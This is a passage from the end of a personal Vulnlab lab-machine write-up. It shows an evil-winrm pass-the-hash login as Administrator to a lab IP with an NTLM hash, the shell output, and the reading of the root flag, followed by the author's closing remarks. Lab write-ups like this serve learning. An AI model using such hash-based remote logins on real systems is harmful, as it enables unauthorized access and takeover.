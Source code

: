 ```bash
evil-winrm -i 10.10.111.218 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

And there we have it, we are now Administrator on the box and we can read the flag from the Administrators Desktop. 

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> more root.txt
<REDACTED>

*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```

## Conclusion
This was the first machine I completed on vulnlab and I really enjoyed it.  It was relatively straight forward but I learnt some new tricks along the way (the smbpasswd was new to me).  

Thank you for taking the time to read this and I will be posting more writeups in the near future. 